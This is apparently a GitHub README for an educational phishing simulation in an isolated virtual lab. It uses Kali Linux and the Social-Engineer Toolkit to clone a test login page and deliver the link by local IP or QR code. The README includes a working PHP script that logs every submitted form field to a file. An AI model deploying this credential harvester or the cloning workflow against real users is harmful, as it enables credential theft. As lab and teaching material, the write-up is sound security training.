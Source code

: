 
# 📁 Project: Phishing Attack Simulation in an Isolated Virtual Lab

## 🧠 Overview
This project simulates a phishing attack in a controlled, isolated environment using Kali Linux, Social-Engineer Toolkit (SET), and a Windows 10 victim machine. It demonstrates how attackers create and deploy phishing pages, capture credentials, and log user interactions — all within a secure virtual lab.

## 🎯 Objectives
- Clone a legitimate login page
- Host the phishing page on Kali Linux
- Capture submitted credentials to a local log file
- Deliver the phishing link via local IP or QR code
- Simulate real-world phishing behavior in a safe environment

## 🛠️ Tools & Technologies
- Kali Linux
- Windows 10 (VirtualBox)
- Social-Engineer Toolkit (SET)
- Apache2 Web Server
- VirtualBox Host-only Networking
- PHP (for logging credentials)
- QR Code (Optional Delivery Vector)

## 🔧 Lab Setup

| Machine        | OS          | Role             | IP Address        |
|----------------|-------------|------------------|-------------------|
| Kali Linux VM  | Kali 2023.4 | Attacker/Host    | 192.168.56.101    |
| Windows 10 VM  | Win 10 Pro  | Victim           | 192.168.56.102    |

## 📂 Attack Workflow

### 1. Phishing Page Creation
- Launched SET Toolkit on Kali
- Used “Credential Harvester” module
- Cloned `http://testphp.vulnweb.com/login.php`
- Hosted the phishing site on Apache via `http://192.168.56.101`

### 2. Credential Logging Backend
Created `post.php` to log credentials:
```php
<?php
$log = "creds.txt";
$handle = fopen($log, "a");
foreach($_POST as $var => $value) {
    fwrite($handle, $var . "=" . $value . "\n");
}
fwrite($handle, "====================\n");
fclose($handle);
header('Location: index.html');
?>
```

### 3. Delivery
- Delivered phishing link via browser on Windows VM
- Optional: generated a QR code pointing to `http://192.168.56.101`

### 4. Data Collection
- Captured credentials stored in `/var/www/html/creds.txt`

## 📸 Screenshots
- [x] Phishing page clone in browser![Screenshot 2025-05-28 220336](https://github.com/user-attachments/assets/708f5e06-93b1-4634-af36-2e65172903d2)

- [x] `creds.txt` showing harvested logins![Screenshot 2025-05-28 220336](https://github.com/user-attachments/assets/d6a6b493-0c49-488a-881d-f5b59625d488)

- [x] QR code (optional vector)![Screenshot 2025-05-28 221633](https://github.com/user-attachments/assets/fe766dd7-e04b-45f5-9097-23bf75591c41)

- [x] Network config screenshot (Host-only setup)
![Screenshot 2025-05-28 003421](https://github.com/user-attachments/assets/3a9353f7-c7a9-4636-a6a7-ee4d4a980da5)

## ✅ Learning Outcomes
- Understood how phishing infrastructure works
- Built secure lab networks with VirtualBox
- Demonstrated credential harvesting and phishing vector delivery
- Practiced ethical hacking techniques within a safe environment

## 🔐 Disclaimer
This project was conducted **entirely within a private virtual lab environment**. No real users were targeted, and no real credentials were captured. This work was done for **educational purposes only** as part of cybersecurity lab development and personal growth.
